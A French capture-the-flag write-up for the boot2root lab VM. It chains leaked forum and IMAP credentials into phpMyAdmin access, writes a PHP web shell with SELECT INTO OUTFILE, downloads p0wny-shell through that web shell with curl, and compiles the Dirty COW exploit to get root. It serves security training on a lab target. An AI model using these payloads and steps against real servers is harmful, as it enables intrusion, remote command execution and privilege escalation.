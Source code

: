 # Writeup #3

## Contexte

Comme nous avons vu dans l'ancien writeup, il
nous a été possible de devenir **root** en remplaçant
simplement le binaire d'**init** par un shell dans les paramètres
kernel.

## Collecte d'informations

En ouvrant notre navigateur internet, dans notre cas firefox, il
est possible d'accéder au site internet HTTPS en ajoutant une exception
SSL.

En utilisant le logiciel **OWASP ZAP**, nous avons pu déterminer
l'existence de plusieurs sous dossier du serveur HTTP:
- /forum
- /phpmyadmin

### Analyse du forum

Les forums utilisent en général des générateurs de page HTML;
ceux-ci ajoutant leurs versions dans la balise meta "generator":

```bash
curl -sk https://$TARGET/forum/ | grep "name=\"generator\""
```

Ce qui nous donne:

```
<meta name="generator" content="my little forum 2.3.4" />
```

D'autre part un naviguant sur le forum nous avons pu observe
la présence d'un topic intéressant a propos d'un *Problème login*.
Le contenu du poste possède la même nomenclature du fichier de log SSH.

En lisant méticuleusement l'extrait du fichier, une ligne nous saute au yeux:

`Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2`

Le nom de l'utilisateur qui se serait trompe lors de sa connection s'apparente plus a un mot de passe,
une étourderie de la part de l'utilisateur peut être ? En regardant la tentative
juste en dessous, nous pouvons apercevoir l'username **lmezard**:

`Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)`

En testant de se connecter sur le forum avec:
- username: `lmezard`
- password: `!q\]Ej?*5K5cy*AJ`

Il est possible d'accéder au compte et d'avoir accès a plus d'informations a propos de l'utilisateur:

![Boot Menu](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/forum.png)

Nous sommes en possession du mail de l'utilisateur: `laurie@borntosec.net`

### Le serveur IMAP

Lors du premier writeup, nous avons mis en évidence la présence d'un serveur IMAP
sur la VM, connectons nous sur le port sécurisé:

```bash
openssl s_client -connect $TARGET:993
```

A partir de ce [memo](https://busylog.net/telnet-imap-commands-note/) du protocole, nous
allons examiner le compte:

```bash

* OK [CAPABILITY IMAP4rev1 LITERAL+ SASL-IR LOGIN-REFERRALS ID ENABLE IDLE AUTH=PLAIN] Dovecot ready.

a LOGIN laurie@borntosec.net !q\]Ej?*5K5cy*AJ

a OK [CAPABILITY IMAP4rev1 LITERAL+ SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS MULTIAPPEND UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS] Logged in

a LIST "*" "*"

* LIST (\NoInferiors \UnMarked) "/" "INBOX.Drafts"
* LIST (\NoInferiors \Marked) "/" "INBOX.Sent"
* LIST (\NoInferiors \UnMarked) "/" "INBOX.Trash"
* LIST (\NoInferiors \UnMarked) "/" "INBOX"
a OK List completed.

a SELECT "INBOX.Sent"

* FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
* OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
* 2 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 1444339365] UIDs valid
* OK [UIDNEXT 3] Predicted next UID
* OK [HIGHESTMODSEQ 1] Highest
a OK [READ-WRITE] Select completed.

a FETCH 1 BODY[]

* 1 FETCH (BODY[] {1722}
Received: from 192.168.1.22
        (SquirrelMail authenticated user laurie@borntosec.net)
        by 192.168.1.8 with HTTP;
        Thu, 8 Oct 2015 23:22:45 +0200
Message-ID: <38e4cbc743bb95cd2402bf0bc47602b3.squirrel@192.168.1.8>
Date: Thu, 8 Oct 2015 23:22:45 +0200
Subject: Very interesting !!!!
From: laurie@borntosec.net
To: ft_root@mail.borntosec.net
User-Agent: SquirrelMail/1.4.22
MIME-Version: 1.0
Content-Type: text/plain;charset=iso-8859-1
Content-Transfer-Encoding: 8bit
X-Priority: 3 (Normal)
Importance: Normal

WinDev est un atelier de g�nie logiciel (AGL) �dit� par la soci�t�
fran�aise PC SOFT et con�u pour d�velopper des applications,
principalement orient�es donn�es pour Windows 8, 7, Vista, XP, 2008, 2003,
2000, mais �galement pour Linux, .Net et Java. Il propose son propre
langage, appel� le WLangage. La premi�re version de l'AGL est sortie en
1993. Apparent� � WebDev et WinDev Mobile.

La communaut� autour de WinDev
Tour De France Technique
Chaque ann�e, entre le mois de mars et le mois de mai, PC SOFT organise
dans toute la France ce qu'ils appellent le TDF Tech (Tour De France
Technique). Cet �v�nement d'une demi-journ�e a pour but d'informer et de
pr�senter les nouveaut�s de chaque version. Pendant cette courte
formation, les diff�rents intervenants utilisent un grand nombre
d'applications pr�-con�ues dans lesquelles ils ont int�gr� les multiples
nouveaut�s, tout en exploitant le mat�riel (serveurs, t�l�phones) qu'ils
ont apport�. Non seulement, WinDev est largement mis en avant, mais aussi
les autres environnements : WebDev et WinDev Mobile. Le code source des
sujets pr�sent�s ainsi qu'un support de cours sont remis � chaque
participant.
)
a OK Fetch completed.
a SELECT "INBOX.Sent"
* OK [CLOSED] Previous mailbox closed.
* FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
* OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
* 2 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 1444339365] UIDs valid
* OK [UIDNEXT 3] Predicted next UID
* OK [HIGHESTMODSEQ 1] Highest
a OK [READ-WRITE] Select completed.

a FETCH 2 BODY[]

* 2 FETCH (BODY[] {629}
Received: from 192.168.1.22
        (SquirrelMail authenticated user laurie@borntosec.net)
        by 192.168.1.8 with HTTP;
        Thu, 8 Oct 2015 23:25:25 +0200
Message-ID: <e231e4a59416c44fd367fc5eeff1e8f5.squirrel@192.168.1.8>
Date: Thu, 8 Oct 2015 23:25:25 +0200
Subject: DB Access
From: laurie@borntosec.net
To: ft_root@mail.borntosec.net
User-Agent: SquirrelMail/1.4.22
MIME-Version: 1.0
Content-Type: text/plain;charset=iso-8859-1
Content-Transfer-Encoding: 8bit
X-Priority: 3 (Normal)
Importance: Normal

Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
)
a OK Fetch completed.
```

Des credentials de BDD:
- username: `root`
- password: `Fg-'kKXBj87E:aJ$`

### PHPmyAdmin

Comme nous savons que phpmyadmin est installe sur le serveur,
nous pouvons utiliser les credentials pour se connecter:

![phpmyadmin](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/phpmyadmin.png)

En se basant sur cet [article](http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2) nous allons
mettre en place un shell pour exécuter des commandes a distance:

```sql
select "<?php $o = shell_exec($_REQUEST['x']); echo $o ?>" into outfile "/var/www/x.php";
```

Seulement le serveur nous renvois une erreur:
```
#1 - Can't create/write to file '/var/www/x.php' (Errcode: 13)
```

Il nous faut un dossier dans lequel nous avons les droits d'écriture.
En lisant la [documentation](https://github.com/ilosuna/mylittleforum/wiki/Installation) d'installation
du forum:

> Depending on your server configuration the write permission of the subdirectory templates_c (CHMOD 770, 775 or 777) and the file config/db_settings.php (CHMOD 666) might need to be changed in order that they are writable by the script

Le dossier **template_c** semble correct:

```sql
select "<?php $o = shell_exec($_REQUEST['x']); echo $o ?>" into outfile "/var/www/forum/templates_c/foo.php"
```

![phpmyadmin](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/phpmyadmin2.png)

Succès ! Nous pouvons désormais installer un shell plus fancy:

```bash
curl -sk "https://$TARGET/forum/templates_c/foo.php?x=curl -O https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php"
```

![shell](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/shell.png)

Sachant que nous avons un shell stable, il est possible
de récupérer plus d'informations sur le système:

```bash
laurie@BornToSecHackMe:~$ uname -smr
Linux 3.2.0-91-generic-pae i686
```

En 2016, la vulnérabilité [Dirty Cow](https://www.wikiwand.com/fr/Dirty_COW) a été découverte et mise
publique. Le kernel étant assez ancien, nous allons rechercher quelques exploits avec `searchsploit`.

```bash
$ searchsploit "Linux Kernel < 3. Dirty"
```

![Searchsploit](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/searchsploit.png)

Apres plusieurs tests, nous avons choisis l'exploit [**40839**](https://www.exploit-db.com/exploits/40839):

```bash
$ curl https://www.exploit-db.com/raw/40839 -o dirty.c
$ sed -i s/firefart/root/ dirty.c # Change l'id de l'user
$ gcc -pthread dirty.c -o dirty -lcrypt
$ ./dirty 42
```

![Searchsploit](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/dirty.png)

Nous sommes en possession d'un shell en *uid=0*.
